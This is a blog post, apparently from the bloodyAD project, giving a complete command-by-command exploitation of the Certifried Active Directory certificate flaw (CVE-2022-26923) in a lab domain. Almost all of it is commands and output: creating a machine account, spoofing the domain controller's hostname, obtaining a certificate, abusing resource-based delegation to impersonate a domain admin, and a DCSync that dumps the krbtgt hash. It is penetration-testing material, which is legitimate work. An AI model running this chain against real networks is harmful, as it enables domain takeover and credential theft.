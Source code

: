 ```yaml
---
title: Exploiting Certifried (CVE-2022-26923)
summary: Discover how to exploit the certifried vulnerability easily with bloodyAD.
date: 2024-05-11
aliases: [/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923,/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html]
# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
# image:
#   caption: 'Image credit: [**Unsplash**](https://unsplash.com)'

authors:
  - soka
  - admin

tags:
  - Active Directory
  - Authentication
  - CVE
  - Exploit

categories:
  - bloodyAD
---
```

A new ADCS privesc was released: Certifried (CVE-2022-26923) with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

## Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
```

We create a Computer object `cve` in the LDAP:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
```

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
```

To check if the attribute has been correctly set:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
```

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
```ps1
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

```

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
```ps1
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
```ps1
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
```

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
```ps1
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
```

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
```ps1

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
```
